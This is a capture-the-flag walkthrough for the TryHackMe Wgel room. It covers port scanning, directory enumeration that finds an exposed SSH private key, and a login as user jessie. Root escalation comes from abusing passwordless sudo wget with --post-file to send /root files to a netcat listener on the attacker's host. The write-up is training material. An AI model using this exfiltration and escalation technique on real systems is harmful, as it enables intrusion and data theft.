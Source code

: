 # [Wgel CTF](https://tryhackme.com/room/wgelctf)

`Machine's IP - 10.10.33.168`

# Reconnaissance and Discovery
So, the first thing was to start out with a simple nmap scan and outputting the results to a log file.

`nmap -sS -sC -sV 10.10.33.168 -Pn > nmap-wgel.log`

# Analyzing Information and Risks


```
Starting Nmap 7.70 ( https://nmap.org ) at 2020-11-18 21:23 Central Standard Time (Mexico)
Nmap scan report for 10.10.33.168
Host is up (0.60s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 94:96:1b:66:80:1b:76:48:68:2d:14:b5:9a:01:aa:aa (RSA)
|   256 18:f7:10:cc:5f:40:f6:cf:92:f8:69:16:e2:48:f4:38 (ECDSA)
|_  256 b9:0b:97:2e:45:9b:f3:2a:4b:11:c7:83:10:33:e0:ce (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 107.68 seconds
```

Realizing that `SSH` amd `HTTP` was open, I went to the website to see if maybe we can get some more information about the server. 

# Web Analysis

Upon entering `http://10.10.33.168/` I noticed that it was the default starting template for Apache2. The strange thing was that the listing was wrong, look:

```bash
/etc/apache2/
|-- apache2.conf
|       `--  ports.conf
|-- mods-enabled
|       |-- *.load
|       `-- *.conf
|-- conf-enabled
|       `-- *.conf
|-- sites-enabled
|       `-- *.conf


 
          
```

If you've used Apache2 before, you'd know something was wrong too, so I viewed the source file and found this:

```
 <!-- Jessie don't forget to udate the webiste -->
```

So, we can guess the user is `Jessie`.

# Directory Enumeration

### Gobuster 

With `Gobuster` I was able to determine that the url given to us had a directory in it.

`gobuster dir -u http://ip/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt`

I found.

```
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.178.77
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/10/24 16:59:12 Starting gobuster in directory enumeration mode
===============================================================
/sitemap              (Status: 301) [Size: 314] [--> http://10.10.178.77/sitemap/]
Progress: 145 / 220561 (0.07%)    
```

Upon searching the site found in that directory, I couldn't find anything useful so I returned to the directory enumeration on this new url. With the common files found I just didn't find anything useful in other directories or files. So, I decided to find other type of files and extensions.

`gobuster dir -u http://ip/sitemap -w /usr/share/wordlists/dirb/common.txt`

I found.

```
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.178.77/sitemap/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/10/24 17:02:39 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/.ssh                 (Status: 301) [Size: 319] [--> http://10.10.178.77/sitemap/.ssh/]
Progress: 172 / 4615 (3.73%) 
```

And bingo! We found an `SSH` key that could belong to the user found previously.

### Dirbuster

Using dirbuster, I was able to find `http://10.10.33.168/sitemap/`. Here, I decided to try getting an indexing page and stumbled upon `http://10.10.33.168/sitemap/.ssh/` which gave me an `id_rsa`. Quickly, I downloaded the key and prepared myself for SSH login.

First, I renamed the file to match with the user \
`mv id_rsa.txt id_jessie`

Secondly, I changed the permissions of the file \
`chmod 600 id_jessie`

Finally, I got in `ssh -i id_jessie jessie@10.10.33.168` and had a console. 

Once inside, I looked for the `user.txt`.

```bash
jessie@CorpOne:~$ find | grep flag
./Documents/user_flag.txt
jessie@CorpOne:~$ cat ~/Documents/user_flag.txt
********************************
```

I tried to enumerate my permissions after that with `sudo -l` and noticed something strange but interesting

```bash
User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
```

Once read that, I immediately opened a new tab and went to [GTFOBins](https://gtfobins.github.io/) and searched for `wget`. Here, I was bestowed upon me the following command

```bash
wget --post-file=$LFILE $URL
```

I got another tab in bash open, started a `Netcat` listener

```bash
> nc -lvnp 4445
listening on [any] 4445 ...
```

On my SSH key I ran the following command

```bash
jessie@CorpOne:~$ sudo /usr/bin/wget --post-file=/root/root_flag.txt http://10.6.20.112:4445/
--2020-11-19 05:47:41--  http://10.6.20.112:4445/
Connecting to 10.6.20.112:4445... connected.
```

And just like that, I got the `root.txt`

```bash
> nc -lvnp 4445
listening on [any] 4445 ...
connect to [10.6.20.112] from (UNKNOWN) [10.10.33.168] 43532
POST / HTTP/1.1
User-Agent: Wget/1.17.1 (linux-gnu)
Accept: */*
Accept-Encoding: identity
Host: 10.6.20.112:4445
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 33

********************************
```

## License
[MIT](https://choosealicense.com/licenses/mit/)

